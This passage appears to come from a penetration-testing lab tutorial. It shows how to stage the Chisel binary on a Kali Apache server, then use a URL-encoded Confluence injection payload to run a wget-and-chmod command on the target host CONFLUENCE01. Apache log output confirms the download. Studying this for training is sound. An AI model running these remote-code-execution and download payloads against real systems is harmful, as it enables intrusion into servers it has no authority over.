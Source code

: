To get the Chisel binary onto CONFLUENCE01, we can leverage the injection to download it from our Kali machine over HTTP. We can serve the **chisel** binary using Apache. In order to do this, we must first copy the Chisel binary to our Apache2 server's webroot directory.

```
kali@kali:~$ sudo cp $(which chisel) /var/www/html/
kali@kali:~$ 
```

> Listing 1 - Copying the Chisel binary to the Apache2 server folder.

We can then make sure that Apache2 is started on our Kali machine using **systemctl**.

```
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```

> Listing 2 - Starting Apache2.

Next, we will build the **wget** command we want to run through the injection on CONFLUENCE01. This command will download the **chisel** binary to **/tmp/chisel** and make it executable:

```
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

> Listing 3 - The Wget payload we use to download the Chisel binary to /tmp/chisel on CONFLUENCE01 and make it executable.

Next, we'll format this command to work with our **curl** Confluence injection payload.

As before, you can modify the specific parts of the URL-encoded RCE payload that you need to, rather than trying to build a new payload from scratch, to avoid formatting difficulties.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

> Listing 4 - The Wget payload executed within our cURL Confluence injection command.

The Apache2 log file (**/var/log/apache2/access.log**) eventually shows the request for the Chisel binary coming in:

```
kali@kali:~$ tail -f /var/log/apache2/access.log
...
192.168.50.63 - - [03/Oct/2023:15:53:16 -0400] "GET /chisel HTTP/1.1" 200 8593795 "-" "Wget/1.20.3 (linux-gnu)"
```

> Listing 5 - The request for the Chisel binary hitting our Apache2 server.
